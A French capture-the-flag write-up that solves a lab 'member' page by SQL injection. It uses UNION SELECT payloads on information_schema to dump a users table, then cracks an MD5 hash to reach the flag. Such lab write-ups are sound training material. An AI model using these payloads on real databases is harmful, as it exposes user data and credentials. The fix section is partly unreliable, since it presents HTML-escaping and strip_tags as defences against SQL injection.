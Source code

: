 # member injection SQL
Recupere des datas grace a une injection SQL

## Comment obtenir le flag
* Se rendre a `ip`/index.php?page=member
* Si on submit vide, on obtient:
- *You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1*
* En testant `1 OR 2`, on constate qu'une requete SQL est donc possible :
- On tombe sur : `First name: Flag` / `Surname : GetThe`
- Notre bible pour les requetes : *http://www.sqlinjection.net/column-names/*

* `TRUE UNION SELECT table_schema, table_name FROM information_schema.tables`
Notamment, la table:
```
table_schema: Member_Sql_Injection
table_name: users
```

* `TRUE UNION SELECT table_name, column_name FROM information_schema.columns`
Notamment:
```
table_name: users
column_name: user_id
column_name: first_name
column_name: last_name
column_name: town
column_name: country
column_name: planet
column_name: Commentaire
column_name: countersign
```

* Ce qui permet de rechercher 2 par 2 (étant limités par l'UNION) les résultats pour chaques colonnes de la table users:
- `TRUE UNION SELECT last_name, countersign FROM Member_Sql_Injection.users`
- `TRUE UNION SELECT Commentaire, countersign FROM Member_Sql_Injection.users`
- etc.

* Nous obtenons pour l'utilisateur GetThe Flag :
```
user_id : 5
first_name : Flag
last_name : GetThe
town : 42
country : 42
planet : 42
Commentaire : Decrypt this password -> then lower all the char. Sh256 on it and it's good !
countersign : 5ff9d0165b4f92b14994e5c685cdce28
```

* En suivant les recommandations du commentaire, nous obtenons:
* *5ff9d0165b4f92b14994e5c685cdce28* = *FortyTwo* (md5)
* Cryptons ensuite fortytwo (*lower all the char*) en sha256, pour obtenir le flag : *10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5*

## Fix possible
Les methodes suivantes permettent efficacement de se proteger contre les injections lorsque des champs sont remplis par l'user :
- `mysql_real_escape_string` (concernant les db),
- `htmlentities()`,
- `htmlspecialchars()`,
- `strip_tags()`,
- `addslashes()`,
- et globalement en utilisant la PDO
Il est aussi de bon usage lorsqu'une requete est faite de vérifier deux clés, lorsque cela est possible, afin d'autoriser l'accès au contenu (ex : le champs demandé est le nom d'utilisateur, mais en backend le code vérifie aussi l'identifiant de l'utilisateur loggé).
Vérifier que la string envoyée ne contient pas d'espaces si cela n'est pas nécessaire
Parser le retour de la requête plutot qu'en envoyer l'intégralité du contenu

## Explications
Il est possible de faire une injection SQL en utilisant `UNION` dans le but d'exposer l'intégralité des bases de données du site et leur contenu.
Cela permet de découvrir notamment et en particulier les mots de passe enregistrés des admin/root.
